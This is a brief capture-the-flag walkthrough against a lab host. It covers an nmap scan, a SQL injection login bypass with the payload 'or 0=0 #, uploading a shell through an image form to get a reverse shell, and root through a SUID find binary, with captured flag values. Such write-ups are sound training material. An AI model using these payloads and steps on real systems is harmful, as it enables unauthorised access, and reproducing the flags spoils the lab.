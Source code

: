 target : 10.150.150.146
└─# nmap -sV -Pn -p- --min-rate 5000 $ip           
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0)
443/tcp  open  ssl/http Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1i PHP/7.4.14 mod_perl/2.0.11 Perl/v5.32.0)
3306/tcp open  mysql?

on the website i found a login
http://10.150.150.146/reviewer/login/index.php and when i enter the '' i got an error

Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test''' at line 1 in /opt/lampp/htdocs/reviewer/login/index.php:11 Stack trace: #0 /opt/lampp/htdocs/reviewer/login/index.php(11): PDOStatement->execute() #1 {main} thrown in /opt/lampp/htdocs/reviewer/login/index.php on line 11

I think it's Sqli, i will bypass the admin Login
I bypass it using 'or 0=0 #
Now have the admin panel http://10.150.150.146/reviewer/system/system/admins/home/index/
FLAG3=e584d01835e057a8fbbd0657d4a01b86f6f540ef
I will try to find a way to get a shell
In the upload image session, we can upload an shell to see 
connect to [10.66.66.50] from (UNKNOWN) [10.150.150.146] 53434
Linux thebit 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 00:34:12 up 17 min,  1 user,  load average: 0.00, 0.35, 0.36
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jason    tty1     -                04Feb21 596days  0.10s  0.05s -bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 

PrivEsc
daemon@thebit:/home/jason$ cat FLAG1.txt 
ae2c229fbe39cc78a34ab769f784702bfda8c537
using /usr/bin/find SUID i can privilege escalate
d1826ccb3f73690300264b3ff4d2097c4d8bb345
